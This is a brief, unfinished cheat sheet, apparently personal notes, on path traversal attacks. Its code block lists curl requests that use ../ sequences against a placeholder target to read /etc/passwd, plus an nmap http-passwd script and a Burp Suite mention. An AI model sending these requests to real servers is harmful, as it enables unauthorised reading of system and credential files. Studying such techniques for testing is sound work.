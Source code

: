 1. Basic Path Traversal
2. Encoded Path Traversal
/// gonna finish this tommorow

```
curl "http://target.com/../../etc/passwd"
curl "http://target.com?file=../../../etc/passwd"

nmap --script http-passwd --script-args http-passwd.root=/target
burpsuite - manual testing with ../ sequences
```
